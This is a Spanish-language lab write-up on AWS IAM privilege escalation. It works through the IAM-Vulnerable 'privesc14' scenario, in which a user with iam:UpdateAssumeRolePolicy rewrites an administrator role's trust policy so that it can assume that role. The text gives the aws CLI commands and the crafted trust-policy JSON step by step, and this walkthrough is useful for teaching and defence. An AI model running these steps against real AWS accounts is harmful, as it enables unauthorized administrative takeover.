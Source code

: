 # AssumeRolePolicy Update

Una **AssumeRolePolicy** (también denominada política de confianza), define qué entidades pueden asumir un rol. El permiso para actualizar una **AssumeRolePolicy** cae técnicamente en la categoría de escalada de privilegios "Permisos sobre políticas". Sin embargo, AssumeRolePolicy merece una categoría aparte debido a su importancia en los entornos de AWS, además del hecho de que a menudo se malinterpreta.

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>MiPoliticaEC2</p></figcaption></figure>

La política llamada _MiPoliticaEC2_, especifica que el rol solamente puede ser asumida por el servicio EC2, como se indica en el objeto del JSON: “service”: “ec2.amazonaws.com”.

Cuando otra entidad del entorno (como un usuario u otro servicio) que intente asumir este rol AWS denegará la solicitud. Esta es una protección importante contra los intentos de escalar privilegios asumiendo un rol de privilegios elevados.

El permiso **iam:UpdateAssumeRolePolicy** proporciona a una entidad la capacidad de cambiar la **AssumeRolePolicy** de un rol. Por lo tanto, si un usuario no está incluido en esta política, pero tiene la capacidad de actualizarla, simplemente puede agregar su cuenta de usuario **AssumeRolePolicy**, y en consecuencia, asumir el rol. Según los permisos asociados con el rol, esto podría proporcionar una ruta para la escalada de privilegios.

## Laboratorio

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc14
{% endembed %}

Usuario del laboratorio:privesc14-UpdatingAssumeRolePolicy-user con el rol:

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

### Configuración inicial

Listar las políticas asociadas al usuario:

{% code overflow="wrap" %}
```
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeR olePolicy-user
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Después, usando el ARN del nombre de la política se puede listar los permisos:

{% code overflow="wrap" %}
```
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Ahora se tiene que generar llaves de acceso para trabajar con el usuario:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14- UpdatingAssumeRolePolicy-role --role-session-name privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Y configurar el acceso con AWS configure:

```bash
aws configure --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Y validar las llaves:

```bash
aws sts get-caller-identity --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, se tiene que crear un documento de política que contenga el permiso **sts:AssumeRole** sobre el ARN del usuario atacante

{% code title="assumerolepolicy.json" overflow="wrap" %}
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
            },
            "Action": "sts:AssumeRole",
            "Condition": {}
        }
    ]
}

```
{% endcode %}

{% hint style="info" %}
El ARN del usuario que se encuentra en nuestra política maliciosa es el valor resultante del comando aws sts get-caller-identity
{% endhint %}

A continuación, se tiene que modificar la política para un rol administrativo con el permiso **update-assume-role-policy** , con el objetivo de que el usuario privesc14 pueda asumir dicho rol:

{% code overflow="wrap" %}
```
aws iam update-assume-role-policy --role-name Rol-Administrator --policy-document file://assumerolepolicy.json --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Listando el rol que se acaba de de actualizar se puede observar que tiene capacidades de administrador

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Dado que el rol apunta ahora a nuestro usuario y el usuario tiene capacidades de asumir roles, procedemos a asumir el rol actualizado malicioso:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrator-Spartan --role-session-name privesc14admin --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Con las nuevas credenciales se proceden a configurar en aws configure con un nuevo perfil

```
aws configure --profile privesc14admin
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Y dado que este rol ahora tiene permisos de administrador, podemos decir que se a comprometido exitosamente.






